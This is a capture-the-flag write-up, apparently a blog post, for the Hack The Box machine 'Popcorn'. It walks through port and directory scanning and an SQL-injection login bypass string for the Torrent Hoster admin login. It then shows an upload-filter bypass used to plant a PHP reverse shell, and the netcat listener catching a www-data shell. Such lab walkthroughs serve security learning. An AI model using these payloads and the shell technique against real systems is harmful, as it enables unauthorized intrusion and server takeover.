 ```yaml
---
layout: post
title: Popcorn(HTB)
categories:
  - Writeup
---
```


<br>OS Linux
<br>IP: 10.10.10.6
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -sV -O 10.10.10.6

<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-19 09:18 EST
<br>Nmap scan report for 10.10.10.6
<br>Host is up (0.15s latency).
<br>Not shown: 998 closed ports
<br>PORT   STATE SERVICE VERSION
<br><font color="BB69EC">22/tcp</font> open  ssh     <font color="53E100">OpenSSH 5.1p1 Debian 6ubuntu2</font> (Ubuntu Linux; protocol 2.0)
<br><font color="BB69EC">80/tcp</font> open  http    <font color="53E100">Apache httpd 2.2.12</font> ((Ubuntu))
<br>No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

<br>Network Distance: 2 hops
<br>Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

<br>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 88.76 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>

**Gobuster**:- To Bruteforce Web Directory
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># gobuster -e -u http://10.10.10.6/ -t 500 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt</p> 

<p>Gobuster v1.2                OJ Reeves (@TheColonial)
<br>=====================================================
<br>[+] Mode         : dir
<br>[+] Url/Domain   : http://10.10.10.6/
<br>[+] Threads      : 500
<br>[+] Wordlist     : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
<br>[+] Status codes : 301,302,307,200,204
<br>[+] Expanded     : true
<br>=====================================================
<br>http://10.10.10.6/index (Status: 200)
<br>http://10.10.10.6/test (Status: 200)
<br><font color="53E100">http://10.10.10.6/torrent</font> (Status: 301)
<br>http://10.10.10.6/rename (Status: 301)
<br>=====================================================
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>
<br>From the gobuster we can see there is a directory **/torrent** in which _Torrent Hoster_ is running.
![Torrent](https://teckk2.github.io/assets/images/Popcorn/1-Popcorn.jpeg)
Now to get inside There are two ways either you can signup a new user or you can do **_sqli loggin bypass_**.
![SQLi bypass](https://teckk2.github.io/assets/images/Popcorn/2-Popcorn.JPG)
<br>In the _Username_ field we will use **{user' 1=1 LIMIT 1;#}** and in the _Password_ field you can use anything like **{password}**.
<br>Using this we can get admin access
![Admin Pannel](https://teckk2.github.io/assets/images/Popcorn/3-Popcorn.JPG)
Now go to the Upload Tab, and there we can only upload a torrent file so Download a valid torrent file or create a [new torrent file](https://www.wikihow.com/Create-a-Torrent)
![Torrent file](https://teckk2.github.io/assets/images/Popcorn/4-Popcorn.JPG)
<p>After uploading the file you will see there is a category _Screenshots_, where we can upload an image, So click on _edit this torrent_ and a new window will pop-up, And you need to remeber one thing we can upload only an image files(_jpg, jpeg, gif, png._). So now We have to bypass the image upload file restriction and need to upload our php reverse-shell in that place.</p>
<br> First Download the PHP standalone [reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) or 
<br>Just open the file {<font color="red">root@kali</font>:<font color="RoyalBlue">/usr/share/webshells/php</font>#cat php-reverse-shell.php}
<br>Now open the file and change the IP and Port, Then change the file extension from {file.php} to {file.php;.png}.
<br>And browse the file to upload  
![upload](https://teckk2.github.io/assets/images/Popcorn/5-Popcorn.JPG)
<br>Now capture the upload request in _BURP_
![upload request-1](https://teckk2.github.io/assets/images/Popcorn/6-Popcorn.JPG)
<br>And change the extension from {_teck.php;.png_} to {_teck.php_} and forward it.
![upload request-2](https://teckk2.github.io/assets/images/Popcorn/7-Popcorn.JPG)
<br>Now open up the listner and then click on the [Image File not found] box in a new tab
![image not found](https://teckk2.github.io/assets/images/Popcorn/8-Popcorn.JPG)
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nc -nlvp 4455
<br>listening on [any] 4455 ...
<br>connect to [10.10.14.14] from (UNKNOWN) [10.10.10.6] 52549
<br>Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
<br> 19:50:19 up 1 day, 18:50,  0 users,  load average: 0.00, 0.00, 0.00
<br>USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
<br>uid=33(www-data) gid=33(www-data) groups=33(www-data)
<br>/bin/sh: can't access tty; job control turned off
<br>$ id
<br>uid=33(www-data) gid=33(www-data) groups=33(www-data)
<br>$uname -a
<br>Linux popcorn <font color="53E100">2.6.31-14-generic-pae</font> #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
<br>$</p> 
</div>
</font>








